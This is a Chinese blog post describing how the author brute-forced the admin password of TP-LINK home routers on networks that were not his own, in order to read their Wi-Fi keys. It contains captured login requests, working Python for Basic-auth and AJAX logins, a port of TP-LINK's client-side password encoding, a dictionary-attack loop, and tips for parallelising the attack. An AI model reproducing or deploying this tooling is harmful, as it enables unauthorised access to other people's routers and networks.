








使用python暴力破解路由器管理密码
文章目录
自从实习以来，我一直苦恼于一个问题：桥接的房东家路由器，但是一直不知道路由器的管理密码。其实这也不算啥，不知道就不知道呗。直到某一天去某童鞋家，但是就是连不上Wi-Fi，看着挂在墙上的路由器，我就起了邪念……插网线，拿MR12U桥接。但是啊但是啊……咱是不是要进管理里看一下WPA2-PSK究竟是什么！
我目前只遇到了两种类型的路由器，咱就先来爽一把。
工欲善其事，必先利其器。那我们自然要有wireshark，还有postman啊，当然了，没有python解释器也是不行的，啊对你还得有个路由器ε=ε=ε=┏(゜ロ゜😉┛但是你要是真没有路由器，那就拿Flask写一个简单的REST API吧，也是可以的（但是这还有什么用呢）。
其实在写这篇文章之前，我是很尴尬的……

路由器管理页面登录方式
我目前见过两种，还有一种就是像openwrt那种……暂时没有环境测试，不玩。
传统型
大概是这样，需要你输入用户名密码：

新型

我当然是喜欢传统型的啊，为啥，多了个用户名，猜不中用户名有啥用嘛，哈哈哈哈。
抓包之旅：传统型
所以嘛，什么都不用想，打开wireshark抓包，然后追踪HTTP流，能得到如下的请求报文：
GET / HTTP/1.1Host: 192.168.7.1Connection: keep-aliveAuthorization: Basic xxxxxUser-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3075.92 Safari/537.36 OPR/46.0.2218.234Upgrade-Insecure-Requests: 1Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8DNT: 1Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7Cookie: shellInABox=3:101010所以咱们大概是懂了，发现这家伙是登录是get请求带个Authorization的头，内容是Basic base64编码的信息，其中base64编码的是用户名:密码，那咱抄起postman就开始……

既然用postman已经成功登录了，那就没太大问题。
抓包之旅：新型
这个866N嘛，首先管理页面右键没有用，开控制台发现是JS渲染的，再一看发现不是传统的表单提交的，估计是用的AJAX吧。抓包过滤http的post请求，大概能发现这么奇特的请求：

看这样子是点击确定按钮之后，用ajax方式提交了一个json。咱在报文上右键，追踪流-HTTP流，看一下完整的响应：
POST / HTTP/1.1Host: 192.168.1.1Connection: keep-aliveContent-Length: 54Accept: application/json, text/javascript, */*; q=0.01Origin: http://192.168.1.1X-Requested-With: XMLHttpRequestUser-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10.9; rv:56.0) Gecko/20100101 Firefox/56.0Content-Type: application/json; charset=UTF-8DNT: 1Referer: http://192.168.1.1/Accept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7{"method":"do","login":{"password":"0KcgeXhc9TefbwK"}}HTTP/1.1 200 OKContent-Type: text/html;charset=UTF-8Content-Length: 75Connection: closeAccess-Control-Allow-Origin: *Cache-control: no-cache{"error_code":0, "stok":"%7EAjzwZP%2E%2EFD%5B0Z%7C46Z4PPP%28LQPu4%28kD%28"}也就是说是提交了{"method":"do","login":{"password":"0KcgeXhc9TefbwK"}}这样一个json，很明显那个0K什么的就是密码了，用postman提交一下试试，咋提交呢？headers设置成application/json，然后body里写raw，设置json，不出意外的话，你会得到一个error code 0

但是吧，0KcgeXhc9TefbwK这究竟是个啥，估计是在浏览器这里用JS加密了的密码吧，那咱就看JS然后溯源……？
还好已经有人分析过了，并且给出了C#版本的代码，咱只要port到Python就好啦。
一种另类的模拟登录的办法
在正经的用requests库之前，我想到了一种另类的模拟登录的办法，比如说上面的这段JS我要是没逆向出来，那么就只好这么了，这种方法叫做……selenium
from selenium import webdriverdriver = webdriver.Chrome()driver.get('http://192.168.1.1')driver.find_element_by_xpath('//*[@id="lgPwd"]').send_keys('123456')driver.find_element_by_xpath('//*[@id="loginSub"]').click()当然了你还需要写几行代码判断是否登录成功，咱还可以把Chrome换成PhantomJS，只不过嘛，嘿嘿嘿，这个速度，估计要几秒钟才能尝试一个密码，效率太低啦。
传统路由器用Python模拟登录
既然我们已经用postman搞成功了，那么就上requests库试试吧。代码很简单，就几行，简单的测试下：
import requestsr=requests.get('http://192.168.7.1', headers={'Authorization': 'Basic QxxxxI2'})print r.status_code如果status_code为200的话，那么就是登录成功了。
新型路由器用Python模拟登录
不要害怕，我已经帮你逆向好了客户端加密的那段代码，所以总体来说大概就是这么两个函数（好吧感觉缩进乱了）：当然啦，能够把JavaScript代码移植到Python也很不容易的，这是没有混淆、比较简单易懂的那种的，要是复杂的话，直接用PyExecJS吧（可惜停止维护了）
def security_encode(b): a = 'RDpbLfCPsJZ7fiv' c = 'yLwVl0zKqws7LgKPRQ84Mdt708T1qQ3Ha7xv3H7NyU84p21BriUWBU43odz3iP4rBL3cD02KZciXTysVXiV8ngg6vL48rPJyAUw0HurW20xqxv9aYb4M9wK1Ae0wlro510qXeU07kV57fQMc8L6aLgMLwygtc0F10a0Dg70TOoouyFhdysuRMO51yY5ZlOZZLEal1h0t9YQW0Ko7oBwmCAHoic4HYbUyVeU3sfQ1xtXcPcf1aT303wAQhv66qzW' e = '' g = len(a) h = len(b) k = len(c) f = g if g > h else h for p in range(f): n = l = 187 if p >= g: n = ord(b[p]) elif p >= h: l = ord(a[p]) else: l = ord(a[p]) n = ord(b[p]) e += c[((l ^ n) % k)] return edef login(password): requests.get('http://192.168.1.1', headers={'Content-Type': 'application/json'}) r = requests.post('http://192.168.1.1', json={"method": "do", "login": {"password": security_encode(password)}}) return r.status_code同上，status_code为200，就意味着密码正确啦。
开始暴力破解：集成弱口令字典
当然了，实际暴力破解的时候，咱不可能一个一个输入密码，所以咱要使用弱口令字典。为了演示方便，我就随意编辑了一个比较简单的、长度比较短的弱口令字典，咱封装一下就好啦。想要真正的弱口令字典吗？自己搜索去吧~
def new_crack(): with open('test_pass.txt', 'r') as f: while True: line = f.readline() if len(line) == 0: break else: result, msg = new_login(line.rstrip('\n')) if result: return msg至于传统登录的，还需要一份用户名文件，双重循环并注意seek即可。
封装，封装
在完成了基本的测试之后，基本上就剩下封装函数、引入库、进行测试这些基本操作了，详细的代码就不贴了，可以戳下面的章鱼猫获取。其实这代码还可以更灵活的，那么就交给读者们了！
加快破解速度
俗话说，欲速则不达，呸，我才不管这些呢。我要加快破解程序的破解速度，我这一跑，也就占用20%不到的CPU，速度太慢了。那么……多线程？呃，Python里的多线程由于GIL锁的存在，这多线程有时接近个摆设（就是说，无法发挥多核CPU的全部性能，当然如果不是CPU密集型的任务，遇到I/O操作会释放锁，用多线程还是可以并发的）……那么我们只能上多进程了…省事，跑满CPU…另外，评论区仙子指出，连接复用也是一个好办法。
那我们只需要在密码那里开个进程池，把任务全都丢给进程池，然后一起join就可以了。详细的代码可以参考下面的章鱼猫。
当然了，为了防止反复调用p.get()影响多进程效率，我稍微做了一点点改动。

这是一颗满载的CPU……
最后的结果……

我还能说什么，TP-LINK这绝对是脑子进水了。客户端加密的时候我就说你有毛病了，这连自己都进不去管理页面逼我重启路由器，真是……行吧，我打算逆向固件了。下次见。啊对，有个工具叫THC Hydra，也可以试试哦！
哦对了
提前祝愿小伙伴们元旦快乐！
本站默认采用CC-BY-NC-SA 4.0协议进行授权 转载必须包含本声明，并以超链接形式注明原作者和本文原始地址


评论
38 条评论